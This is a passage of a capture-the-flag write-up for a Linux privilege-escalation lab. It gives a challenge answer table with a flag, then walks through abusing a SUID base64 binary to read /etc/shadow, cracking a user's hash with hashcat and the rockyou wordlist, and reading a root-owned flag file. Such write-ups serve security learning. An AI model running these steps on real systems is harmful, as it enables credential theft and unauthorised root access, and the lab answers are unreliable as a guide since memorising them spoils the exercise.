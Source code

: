

| Qu3$t10n$ | 4n$w3r$ |
|-----------|---------|
| How many mountable shared can you identify on the target system ? | 3 |
| How many shares have the "no_root_squash" option enabled ? | 3 |
| What is the content of the flag7.txt file ? | THM-89384012 |


## Capstone Challenge

> Machine IP : `10.10.126.223`

> lets see how many users are there
```
cat /etc/passwd | grep home

```
> so there are 2 users except root.

> finding the `SUID` set binary files
```
find / -type f -perm -04000 -user root 2>/dev/null

```
> findidng the flags
```
find / -type f -name flag* 2>/dev/null
```

> we can see that `base64` binary is enabled with `SUID` bit. lets read the shadow file and obtain the password hashed 
```
base64 /etc/shadow | base64 --decode | cut -d ":" -f 1,2

```

> lets first crack `missy` user's password using hashcat
```

hashcat -m 1800 hash.txt /usr/share/wordlists/rockyou.txt

```
> so now we got missy's password. lets login as missy
```
su missy
```
> now find the flags
```
find / -type f -name flag* 2>/dev/null
```
> we have got the flag1.txt file. read it and submit the flag.

> now lets try to read the flag2.txt which probably in the rootflag folder. but we have no access to go there. we will use `base64` binary to read if any flag is there.
```
base64 /home/rootflag/flag2.txt | base64 --decode 
```
